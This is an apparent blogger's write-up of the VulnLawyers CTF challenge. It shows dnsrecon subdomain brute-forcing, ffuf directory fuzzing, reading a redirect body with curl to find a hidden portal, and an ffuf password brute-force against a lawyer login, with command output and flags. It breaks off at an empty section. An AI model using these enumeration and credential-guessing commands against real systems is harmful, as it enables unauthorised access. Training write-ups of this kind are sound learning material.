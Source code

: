 ```yaml
---
title: 'CTF Challenge VulnLawyers Writeup'
metaTitle: 'CTF Challenge VulnLawyers Writeup'
metaDesc: 'A writeup for the VulnLawyers challenge from ctfchallenge.com'
metaImg: 'https://ctfchallenge.com/images/ctflogo-trans.png'
date: '2022-09-14'
tags:
  - ctf
  - writeup
  - wip
---
```


[[toc]]

## A Little Disclaimer

So you're looking for answers, are ya? Well, I've got them, but for a price...
Namely a little bit of your time and attention:

**Please try the challenges yourself before checking the answers.**

CTF's are notoriously 'NP' prone. Once you've seen the answer, it's easy
to think you could've come up with that. There is nothing wrong with looking up
answers, but try reflect on why you couldn't figure it out. I try to explain my
thought process as best and brief as possible, but figuring it out yourself is
just the best feeling, so please give it another go when you're reading this!
I'll not include any of the flags to avoid people simply copying and pasting
them.

Another note, I create these writeups as if speaking to myself. If my manner of
speaking seems a bit odd, you try talking to yourself without sounding
a little odd.

## Flags

### Data Baby (Enumeration)

The first flag can be found by performing a standard recon of the subdomains of
`vulnlawyers.co.uk`.
```
$ dnsrecon -d vulnlawyers.co.uk -D ~/path/to/wordlists/subdomains.txt -t brt

[*] Using the dictionary file: /home/zohar/Documents/Playground/wordlists/subdomains.txt (provided by user)
[*] brt: Performing host and subdomain brute force against vulnlawyers.co.uk...
[+] 	A data.vulnlawyers.co.uk 68.183.255.206
[+] 	A www.vulnlawyers.co.uk 68.183.255.206
[+] 2 Records Found
```

Doing a http request with `curl`, or opening the domain in your browser returns
some info about the API and the first flag.
```
$ curl http://data.vulnlawyers.co.uk -H "Cookie: <your_ctf_cookie>"

{"name":"VulnLawyers Website API","version":"2.1.04","flag":"[^FLAG^1337-DIY-1337^FLAG^]"}
```

### Browsers are Evil (Enumeration)

Now that we know the different domains that are available to us, let's do some
recon on the different files and folders we have access to.
```
$ ffuf -w ~/Documents/Playground/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: ctfchallenge=<your_ctf_cookie>" -u http://www.vulnlawyers.co.uk/FUZZ


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

[...]
________________________________________________

css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 15ms]
denied                  [Status: 401, Size: 1020, Words: 178, Lines: 30, Duration: 15ms]
images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 15ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 14ms]
login                   [Status: 302, Size: 1119, Words: 197, Lines: 31, Duration: 16ms]
```

Since we are (always) looking to escalate privileges, the `login` endpoint looks
especially interesting. Entering `http://www.vulnlawyers.co.uk/login` in your
browser will lead to a page that says **Acess is denied from your IP address**.
Shit. But take a look at where we are `http://www.vulnlawyers.co.uk/denied`,
we've been rerouted. 

Let's take a look at what happens with our request in the browser by opening the
developer tab (often <kbd>F12</kbd>, but if you didn't know that, you might want
to look into some other challenges). Opening the 'Network' tab (on
Firefox, might be different on Chrome, Safari, etc.) shows that we got a `302`
code from the `/login` endpoint. This code specifically tells a *browser* to
reroute to a URL given by the `Location` header [^1].

Browsers can do weird stuff, so let's try to ask `curl` what's up.
```
$ curl www.vulnlawyers.co.uk/login -H "Cookie: ctfchallenge=<your_ctf_cookie>"

[...]
  <div class="alert alert-info">
      <p>Access to this portal can now be found here <a href=/lawyers-only">/lawyers-only</a></p>
      <p>[^FLAG^TRY_ME_B*TCH^FLAG^]</p>
  </div>
[...]
```
Well, would you look at that, a flag and a hidden endpoint :eyes:! Christmas
came early this year.

Opening the URL `http://www.vulnlawyers.co.uk/lawyers-only` will bring us to a
login screen. Now we can start gaining some unrequisited privileges.

### Pipelining (Enumeration)

The current goal is to log in, but we lack any user data. Thinking back, the
`data.vulnlawyers.co.uk` probably contains some of that precious user data.
Actually, we have yet to enumerate files and folders. Not you tho, no, while we
were trying to figure out how to access the login page, you have of course
started `ffuf`'ing (that's not a word, but it should be) the domain. If you
haven't, keep in mind that reconnaissance can sometimes take a long time.
Minimize waiting and keep that noggin of yours churning.

```
$ ffuf -w ~/Documents/Playground/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: ctfchallenge=<your_ctf_cookie>" -u http://data.vulnlawyers.co.uk/FUZZ


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

[...]
________________________________________________
users                   [Status: 200, Size: 406, Words: 6, Lines: 1, Duration: 21ms]
```

'Lo and behold, an endpoint called `/users`. Let's employ `curl` and see what it
holds.
```
curl data.vulnlawyers.co.uk/users -H "Cooki e: ctfchallenge=<your_ctf_cookie>"
{
  "users": [
    {
      "name": "Yusef Mcclain",
      "email": "yusef.mcclain@vulnlawyers.co.uk"
    },
    {
      "name": "Shayne Cairns",
      "email": "shayne.cairns@vulnlawyers.co.uk"
    },
    {
      "name": "Eisa Evans",
      "email": "eisa.evans@vulnlawyers.co.uk"
    },
    {
      "name": "Jaskaran Lowe",
      "email": "jaskaran.lowe@vulnlawyers.co.uk"
    },
    {
      "name": "Marsha Blankenship",
      "email": "marsha.blankenship@vulnlawyers.co.uk"
    }
  ],
  "flag": "[^FLAG^https://media.giphy.com/media/26gs6vEzlpaxuYgso/giphy.gif^FLAG^]"
}
```

And that's our third flag. Onto exploitation!

### Higher and Higher (Exploitation)

With a bit of luck, the attorneys are not technically inclined and use simple
passwords. After a bit of trail-and-error, we stumble upon Jaskaran Lowe.

```
ffuf -w ~/Documents/Playground/wordlists/passwords.txt -t 1 -p 0.1 -H "Cookie: ctfchallenge=<your_ctf_cookie>" -u http://www.vulnlawyers.co.uk/lawyers-only-login -H "Content-Type: applicati
on/x-www-form-urlencoded" -d 'email=jaskaran.lowe@vulnlawyers.co.uk&password=FUZZ' -fr "Invalid"


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

[...]
________________________________________________

summer                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 17ms]
```

Logging in using browser gives us some info regarding a case, but more
importantly, the next flag!

### Some More Digging (Exploitation)

[^1]: [302 Found](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/302)

